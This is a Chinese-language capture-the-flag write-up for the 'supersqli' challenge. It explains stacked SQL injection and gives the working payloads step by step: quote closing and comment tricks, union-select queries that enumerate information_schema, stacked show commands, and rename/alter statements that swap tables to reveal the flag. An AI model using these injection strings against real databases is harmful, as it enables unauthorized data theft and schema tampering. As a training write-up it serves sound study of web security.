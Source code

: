 # supersqli

## 一、审题

![](./img/supersqli1.PNG)

## 二、解题思路

1、考点为堆叠注入，通常来说数据库每次执行一条指令，但堆叠注入是例外，在原语句后加上分号，多条语句可以一次执行，但其使用场景有限，受API、数据库引擎、权限等限制，例如利用mysqli_multi_query()函数就支持多条sql语句同时执行，但实际情况中，如PHP为了防止sql注入机制，往往使用调用数据库的函数是mysqli_  query()函数，其只能执行一条语句，分号后面的内容将不会被执行；

2、观察题目，发现题目中直接给了一个注入框，默认查询为`inject=1`，首先尝试闭合条件，发现使用单引号`'`时报错；

![](./img/supersqli2.PNG)

![](./img/supersqli3.PNG)

3、尝试使用`order by`或`group by`爆破出当前查询的列数，在尝试过程中需要将其后的单引号注释掉，首先尝试`--`注释，发现被过滤，再尝试`#`注释，可行，并爆破出当前查询列数为2，因为一直到3的时候报错了；

![](./img/supersqli4.PNG)

4、尝试使用`union select`爆破数据库信息，但是发现有waf；

```
-- 查询库名
' union select 1,group_concat(schema_name) from information_schema.schemata#
/*
几点解释
为什么是group_concat(schema_name)，因为一般是一行显示，所有用该函数拼接结果；
为什么是 1,group_concat(schema_name)，因为union查询的特殊性，每个 SELECT 语句必须拥有相同数量的列，列也必须拥有相似的数据类型，同时，每个 SELECT 语句中的列的顺序必须相同，所以需要找一个字符串型的列进行联合查询
*/
-- 查询表名
' union select 1,group_concat(table_name) from information_schema.tables where table_schema='库名'#
-- 查询列名
' union select 1,group_concat(column_name) from information_schema.columns where table_name='表名'#
-- 查询列内容
' union select 1,group_concat(列名) from 列名#
```

![](./img/supersqli5.PNG)

5、注意到select关键字被过滤后，可以考虑绕过或者尝试堆叠注入，此处为堆叠注入；

6、使用show命令查看库名、表名、列名；

```s
1';show databases;# -- 查看库名的命令
-- 结果有六个，分别为ctftraining，information_schema，mysql，performance_schema，supersqli，test
1';show tables;# -- 查看当前库的表名的命令
-- 结果有两个，分别为1919810931114514，words
1';show columns from words;# -- 查看words表中的列
-- 结果有两个，分别为int(10)型的id，varchar(20)型的data
1';show columns from `1919810931114514`;# -- 查看1919810931114514表中的列，字符串为表名或字段名操作时要加反引号，这个解释不完整，当字符串为表名时，如果是保留字或者无法解释时，加上反引号就能被作为表名或字段名，如果只是正常的字符串可以不加反引号
-- 结果为varchar(100)型的flag
```

7、由上面对表中列的查询结果可知，当前操作的表为words，而需要的flag在1919810931114514表中，可以使用rename和alter来对1919810931114514表进行操作，rename更改表名，alter更改表中的列；

```
-- 将words表重命名为word
-- 将1919810931114514表重命名为words
-- 将1919810931114514表中的flag字段重命名为id
1';rename tables `words` to `word`;rename tables `1919810931114514` to `words`;alter table `words` change `flag` `id` varchar(100);#
-- 特别注意，不能将这前两句分开执行，因为执行第一句后，words表就没了，无法执行堆叠查询
-- 最后也可以向表中加入id列
1';rename tables `words` to `word`;rename tables `1919810931114514` to `words`;alter table `words` add `id` int(10);#
```

8、此时再使用`1' or 1=1#`，进行为真查询就能够返回最终结果，这里解释一下为什么需要这样做，有了这个相当于where条件一定为真，相当于没有where子句，等价于直接执行select * from table；

![](./img/supersqli6.PNG)